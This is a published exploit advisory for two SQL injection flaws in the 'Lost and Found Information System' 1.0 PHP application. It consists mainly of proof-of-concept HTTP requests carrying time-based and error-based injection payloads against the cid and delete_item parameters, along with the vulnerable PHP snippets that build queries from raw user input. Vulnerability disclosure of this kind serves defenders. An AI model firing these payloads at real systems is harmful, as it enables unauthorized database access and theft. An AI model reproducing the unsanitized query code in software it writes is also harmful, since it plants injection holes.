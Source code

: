 ### Exploit Title: Lost and Found Information System - Multiple SQL injections
### Date: 2023-05/11
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/16525/lost-and-found-information-system-using-php-and-mysql-db-source-code-free-download.html
### Version: 1.0
### Tested on: macOs 13.3.1 (a) + phpstudy


# 1./items/index.php
/?page=items&cid=1 SQL injection exists for parameter Section

### Sample request POC #1

```
GET /?page=items&cid=' AND (SELECT 8856 FROM (SELECT(SLEEP(5)))RZAm) AND 'XJUv'='XJUv HTTP/1.1
Host: [IP:PORT]
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/raw/main/imgs/1683787465919.jpg "Lost and Found Information System - Multiple SQL injections")

### Related Codes ./php-lfis/items/index.php
```
<?php 
if(isset($_GET['cid'])){
    $category_qry = $conn->query("SELECT * FROM `category_list` where `id` = '{$_GET['cid']}'");
    if($category_qry->num_rows > 0){
        foreach($category_qry->fetch_assoc() as $k => $v){
            $cat[$k] = $v; 
        }
    }
}
?>
...
```


# 2./classes/Master.php?f=delete_item
### Sample request POC #2

```
POST /classes/Master.php?f=delete_item HTTP/1.1
Host: 10.211.55.3:8001
Content-Length: 221
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBKXTUMQFid7ol6Ro
Origin: http://10.211.55.3:8001
Referer: http://10.211.55.3:8001/?page=found
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryBKXTUMQFid7ol6Ro
Content-Disposition: form-data; name="id"

' AND GTID_SUBSET(CONCAT(0x717a6a7071,(SELECT (ELT(8125=8125,1))),0x71707a7071),8125)-- jKyA
------WebKitFormBoundaryBKXTUMQFid7ol6Ro
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/raw/main/imgs/1683788337596.jpg "Lost and Found Information System - Multiple SQL injections")

### Related Codes ./php-lfis/classes/Master.php
```
...
function delete_item(){
	extract($_POST);
	$del = $this->conn->query("DELETE FROM `item_list` where id = '{$id}'");
	if($del){
		$resp['status'] = 'success';
		$this->settings->set_flashdata('success'," Item Data successfully deleted.");
	}else{
		$resp['status'] = 'failed';
		$resp['error'] = $this->conn->error;
	}
	return json_encode($resp);

}
...
```
